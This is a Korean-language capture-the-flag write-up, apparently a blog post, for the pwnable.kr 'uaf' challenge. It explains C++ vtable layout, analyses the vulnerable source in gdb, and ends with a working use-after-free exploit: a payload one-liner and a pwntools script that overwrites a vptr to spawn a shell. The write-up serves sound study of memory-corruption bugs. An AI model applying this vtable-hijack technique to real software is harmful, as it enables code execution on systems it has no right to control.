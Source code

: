```yaml
---
title: "[pwnable] uaf"
date: 2025-02-05 07:00:00 +0900
categories: [pwnable]
tags: [pwnable]
description: pwnable, system hack
---
```


# vtable, vptr

![alt text](assets/img/uaf/image.png)
c++ class에서 virtual 키워드를 통해 함수를 생성하면 vptr이라는 멤버(포인터)가 자동으로 추가됩니다.  
메모리 레이아웃에서 vptr은 가장 처음에 위치합니다.

# 코드 분석

```c
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	      Man(string name, int age){
	      	      this->name = name;
	      	      this->age = age;
        }
        virtual void introduce(){
	              Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;
}
```

2번 op에서 커맨드라인 인자로 읽을 파일의 길이와 파일명을 입력받습니다.  
new 키워드로 새로운 문자 배열을 동적할당합니다.

3번 op에서 m과 w를 해제합니다.

따라서, 3번 operation으로 m과 w를 해제하고,
2번으로 m과 w의 `introduce`가 위치한 영역에 `give_shell` 함수 (`system("/bin/sh");`)를 덮어씌운 후,  
1번에서 `introduce`를 호출하는 use-after-free 공격을 수행하는 방향으로 가면 됨을 알 수 있습니다.

# 바이너리 분석

![alt text](assets/img/uaf/image-1.png)
gdb-peda에서는 vmmap 명령어로 프로세스의 메모리 영역을 확인할 수 있습니다.  
동적 할당되는 heap 메모리 영역의 주소를 확인해야 합니다.

![alt text](assets/img/uaf/image-2.png)
프로그램을 실행시켜 보면서 스택과 레지스터의 값들을 확인해보니  
heap 영역의 Woman 객체가 `0x401550` 주소를 기반으로 introduce 함수를 호출하는 것을 확인할 수 있었습니다.

![alt text](assets/img/uaf/image-4.png)
0x401550 근처의 값들을 조사해 보니 0x0040117a에 위치한 코드가 give_shell 함수이고,  
0x401550 주소를 기준으로 +8을 하여 introduce 함수를 실행시키는 것을 확인할 수 있었습니다.

![alt text](assets/img/uaf/image-6.png)
w,m이 있는 곳 근처의 heap 영역의 값을 직접 조사해 보니 0x19, 0x15 등 age와, 0x614ec8의 주소(해당 주소에는 name 문자열이 있음)가 보였습니다.    

0x401570, 0x401550 이 vptr이라고 가정했을 때, Woman과 Man 클래스가 24바이트 크기임을 알 수 있었습니다.

uaf를 미리 공부해 보았는데, ptmalloc2 메모리 얼로케이터에서는 bin에 free chunk를 두고, 유저가 요청할 때 사이즈가 비슷한 chunk를 할당해 준다고 합니다.   

따라서 24바이트, `0x0000000000401568`(혹은 `0x0000000000401548`)과 그 뒤에 더미 데이터 16바이트를 합친 파일을 만들어   
`./uaf 24 data` 를 입력하면 문제를 해결할 수 있을 것으로 예상했습니다.


# exploit 작성

* `python2 -c "print '\x48\x15\x40\x00\x00\x00\x00\x00' + '\x00'*16" > payload`   
* `~/uaf 24 payload`

---
```python
from pwn import *

shell = ssh('uaf', 'pwnable.kr', 2222, 'guest')

shell.process(["/bin/sh", "-c", "python -c 'print \"\\x68\\x15\\x40\\x00\\x00\\x00\\x00\\x00\" + \"\\x00\" * 16' > /tmp/hynseok/uaf"])
p = shell.process(["./uaf", "24", "/tmp/hynseok/uaf"])

p.sendlineafter("free", b'3')
p.sendlineafter("free", b'2')
p.sendlineafter("free", b'2')
p.sendlineafter("free", b'1')

p.interactive()

```